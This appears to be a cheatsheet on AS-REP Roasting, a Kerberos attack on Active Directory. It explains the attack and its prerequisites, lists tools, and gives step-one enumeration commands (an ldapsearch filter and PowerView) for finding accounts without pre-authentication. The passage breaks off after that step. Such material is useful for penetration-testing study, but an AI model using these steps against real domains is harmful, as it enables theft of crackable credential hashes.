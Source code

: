 # AS-REP Roasting Cheatsheet

## What is AS-REP Roasting?
- Targets users with **"Do not require Kerberos pre-authentication"** enabled
- Allows requesting encrypted AS-REP data that can be cracked offline
- No account lockout risk (unlike brute-forcing)

## Prerequisites
- At least one domain user account without pre-auth requirement
- Network access to Domain Controller (port 88/TCP)

## Tools
- Impacket's `GetNPUsers.py`
- Rubeus (Windows)
- Hashcat (for cracking)

## Attack Steps

### 1. Identify Vulnerable Users
```bash
# Using LDAP search (Linux)
ldapsearch -x -H ldap://DC_IP -b "dc=domain,dc=com" "(userAccountControl:1.2.840.113556.1.4.803:=4194304)" sAMAccountName | grep sAMAccountName

# Alternative: PowerView (Windows)
Get-DomainUser -PreauthNotRequired | select samaccountname